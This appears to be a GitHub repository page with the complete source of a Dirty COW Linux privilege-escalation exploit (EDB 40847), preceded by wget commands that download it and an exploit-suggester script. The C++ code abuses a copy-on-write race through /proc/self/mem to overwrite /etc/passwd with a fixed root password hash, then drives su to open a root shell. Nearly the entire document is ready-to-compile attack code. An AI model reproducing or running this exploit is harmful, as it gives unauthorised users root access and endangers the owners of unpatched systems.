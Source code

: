 
wget https://raw.githubusercontent.com/Yinyayoli/dir-cow-2/master/linux-exploit-suggester.sh -O dcow.sh

wget https://raw.githubusercontent.com/Yinyayoli/dir-cow-2/master/40847.cpp -O 40847.cpp

# dir-cow-2
// EDB-Note: Compile:   g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
// EDB-Note: Recommended way to run:   ./dcow -s    (Will automatically do "echo 0 > /proc/sys/vm/dirty_writeback_centisecs")
//
// -----------------------------------------------------------------
// Copyright (C) 2016  Gabriele Bonacini
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License as published by
// the Free Software Foundation; either version 3 of the License, or
// (at your option) any later version.
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
// You should have received a copy of the GNU General Public License
// along with this program; if not, write to the Free Software Foundation,
// Inc., 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301  USA
// -----------------------------------------------------------------

#include <iostream>
#include <fstream>
#include <string>
#include <thread>
#include <sys/mman.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/types.h>
#include <pwd.h>
#include <pty.h>
#include <string.h>
#include <termios.h>
#include <sys/wait.h>
#include <signal.h>

#define  BUFFSIZE    1024
#define  PWDFILE     "/etc/passwd"
#define  BAKFILE     "./.ssh_bak"
#define  TMPBAKFILE  "/tmp/.ssh_bak"
#define  PSM         "/proc/self/mem"
#define  ROOTID      "root:"
#define  SSHDID      "sshd:"
#define  MAXITER     300
#define  DEFPWD      "$6$P7xBAooQEZX/ham$9L7U0KJoihNgQakyfOQokDgQWLSTFZGB9LUU7T0W2kH1rtJXTzt9mG4qOoz9Njt.tIklLtLosiaeCBsZm8hND/"
#define  TXTPWD      "dirtyCowFun\n"
#define  DISABLEWB   "echo 0 > /proc/sys/vm/dirty_writeback_centisecs\n"
#define  EXITCMD     "exit\n"
#define  CPCMD       "cp "
#define  RMCMD       "rm "

using namespace std;

class Dcow{
    private:
       bool              run,        rawMode,     opShell,   restPwd;
       void              *map;
       int               fd,         iter,        master,    wstat;
       string            buffer,     etcPwd,      etcPwdBak,
                         root,       user,        pwd,       sshd;
       thread            *writerThr, *madviseThr, *checkerThr;
       ifstream          *extPwd;
       ofstream          *extPwdBak;
       struct passwd     *userId;
       pid_t             child;  
       char              buffv[BUFFSIZE];
       fd_set            rfds;
       struct termios    termOld,    termNew;
       ssize_t           ign;

       void exitOnError(string msg);
    public:
       Dcow(bool opSh, bool rstPwd);
       ~Dcow(void);
       int  expl(void);         
};

Dcow::Dcow(bool opSh, bool rstPwd) : run(true), rawMode(false), opShell(opSh), restPwd(rstPwd),
                   iter(0), wstat(0), root(ROOTID), pwd(DEFPWD), sshd(SSHDID), writerThr(nullptr),
                   madviseThr(nullptr), checkerThr(nullptr), extPwd(nullptr), extPwdBak(nullptr), 
                   child(0){ 
   userId = getpwuid(getuid());
   user.append(userId->pw_name).append(":");
   extPwd = new ifstream(PWDFILE);   
   while (getline(*extPwd, buffer)){
       buffer.append("\n");
       etcPwdBak.append(buffer);
       if(buffer.find(root) == 0){
          etcPwd.insert(0, root).insert(root.size(), pwd);
          etcPwd.insert(etcPwd.begin() + root.size() + pwd.size(), 
                        buffer.begin() + buffer.find(":", root.size()), buffer.end());
       }else if(buffer.find(user) == 0 ||  buffer.find(sshd) == 0 ){
          etcPwd.insert(0, buffer);
       }else{
          etcPwd.append(buffer);
       }
   }
   extPwdBak = new ofstream(restPwd ? TMPBAKFILE : BAKFILE);
   extPwdBak->write(etcPwdBak.c_str(), etcPwdBak.size());
   extPwdBak->close();
   fd = open(PWDFILE,O_RDONLY);
   map = mmap(nullptr, etcPwdBak.size(), PROT_READ,MAP_PRIVATE, fd, 0);
}

Dcow::~Dcow(void){
   extPwd->close();
   close(fd);
   delete extPwd; delete extPwdBak; delete madviseThr; delete writerThr; delete checkerThr;
   if(rawMode)    tcsetattr(STDIN_FILENO, TCSANOW, &termOld);
   if(child != 0) wait(&wstat); 
}

void Dcow::exitOnError(string msg){
      cerr << msg << endl;
      // if(child != 0) kill(child, SIGKILL);
      throw new exception();
}

int  Dcow::expl(void){
   madviseThr = new thread([&](){ while(run){ madvise(map, etcPwdBak.size(), MADV_DONTNEED);} });
   writerThr  = new thread([&](){ int fpsm = open(PSM,O_RDWR);  
                                  while(run){ lseek(fpsm, reinterpret_cast<off_t>(map), SEEK_SET); 
                                              ign = write(fpsm, etcPwd.c_str(), etcPwdBak.size()); }
                                });
   checkerThr = new thread([&](){ while(iter <= MAXITER){ 
                                         extPwd->clear(); extPwd->seekg(0, ios::beg); 
                                         buffer.assign(istreambuf_iterator<char>(*extPwd),
                                                       istreambuf_iterator<char>());
                                         if(buffer.find(pwd) != string::npos && 
                                            buffer.size() >= etcPwdBak.size()){
                                                run = false; break;
                                         }
                                         iter ++; usleep(300000);
                                   }
                                   run = false;
                                 });

  cerr << "Running ..." << endl;
  madviseThr->join();
  writerThr->join();
  checkerThr->join();

  if(iter <= MAXITER){ 
       child = forkpty(&master, nullptr, nullptr, nullptr);

       if(child == -1) exitOnError("Error forking pty.");

       if(child == 0){ 
          execlp("su", "su", "-", nullptr);
          exitOnError("Error on exec.");
       }

       if(opShell) cerr << "Password overridden to: " <<  TXTPWD << endl;
       memset(buffv, 0, BUFFSIZE);
       ssize_t bytes_read = read(master, buffv, BUFFSIZE - 1);
       if(bytes_read <= 0) exitOnError("Error reading  su prompt.");
       cerr << "Received su prompt (" << buffv << ")" << endl; 

       if(write(master, TXTPWD, strlen(TXTPWD)) <= 0) 
            exitOnError("Error writing pwd on tty.");

       if(write(master, DISABLEWB, strlen(DISABLEWB)) <= 0) 
            exitOnError("Error writing cmd on tty.");

       if(!opShell){
            if(write(master, EXITCMD, strlen(EXITCMD)) <= 0) 
                 exitOnError("Error writing exit cmd on tty.");
       }else{
           if(restPwd){
               string restoreCmd = string(CPCMD).append(TMPBAKFILE).append(" ").append(PWDFILE).append("\n");
               if(write(master, restoreCmd.c_str(), restoreCmd.size()) <= 0) 
                    exitOnError("Error writing restore cmd on tty.");
               restoreCmd        = string(RMCMD).append(TMPBAKFILE).append("\n");
               if(write(master, restoreCmd.c_str(), restoreCmd.size()) <= 0) 
                    exitOnError("Error writing restore cmd (rm) on tty.");
           }

           if(tcgetattr(STDIN_FILENO, &termOld) == -1 )
                exitOnError("Error getting terminal attributes.");
    
           termNew               = termOld;
           termNew.c_lflag       &= static_cast<unsigned long>(~(ICANON | ECHO));
    
           if(tcsetattr(STDIN_FILENO, TCSANOW, &termNew) == -1)
                exitOnError("Error setting terminal in non-canonical mode.");
           rawMode = true;
    
           while(true){
                FD_ZERO(&rfds);
                FD_SET(master, &rfds);
                FD_SET(STDIN_FILENO, &rfds);
    
                if(select(master + 1, &rfds, nullptr, nullptr, nullptr) < 0 )
                    exitOnError("Error on select tty.");
    
                if(FD_ISSET(master, &rfds)) {
                    memset(buffv, 0, BUFFSIZE);
                    bytes_read = read(master, buffv, BUFFSIZE - 1);
                    if(bytes_read <= 0) break;
                    if(write(STDOUT_FILENO, buffv, bytes_read) != bytes_read)
                          exitOnError("Error writing on stdout.");
                }
    
                if(FD_ISSET(STDIN_FILENO, &rfds)) {
                    memset(buffv, 0, BUFFSIZE);
                    bytes_read = read(STDIN_FILENO, buffv, BUFFSIZE - 1);
                    if(bytes_read <= 0) exitOnError("Error reading from stdin.");
                    if(write(master, buffv, bytes_read) != bytes_read) break;
                }
            }
      }
  }
 
  return [](int ret, bool shell){ 
       string msg = shell ? "Exit.\n" : string("Root password is:   ") + TXTPWD + "Enjoy! :-)\n";
       if(ret <= MAXITER){cerr << msg; return 0;}
       else{cerr << "Exploit failed.\n"; return 1;} 
  }(iter, opShell);
}

void printInfo(char* cmd){
      cerr << cmd << " [-s] [-n] | [-h]\n" << endl;
      cerr << " -s  open directly a shell, if the exploit is successful;" << endl;
      cerr << " -n  combined with -s, doesn't restore the passwd file." << endl;
      cerr << " -h  print this synopsis;" << endl;
      cerr << "\n If no param is specified, the program modifies the passwd file and exits." << endl;
      cerr << " A copy of the passwd file will be create in the current directory as .ssh_bak" << endl;
      cerr << " (unprivileged user), if no parameter or -n is specified.\n" << endl;
      exit(1);
}

int main(int argc, char** argv){
   const char  flags[]   = "shn";
   int         c;
   bool        opShell   = false,
               restPwd   = true;

   opterr = 0;
   while ((c = getopt(argc, argv, flags)) != -1){
      switch (c){
         case 's':
            opShell = true;
         break;
         case 'n':
            restPwd = false;
         break;
         case 'h':
            printInfo(argv[0]);
         break;
         default:
            cerr << "Invalid parameter." << endl << endl;
            printInfo(argv[0]);
      }
   }

   if(!restPwd && !opShell){
            cerr << "Invalid parameter: -n requires -s" << endl << endl;
            printInfo(argv[0]);
   }

   Dcow dcow(opShell, restPwd);
   return dcow.expl();
}
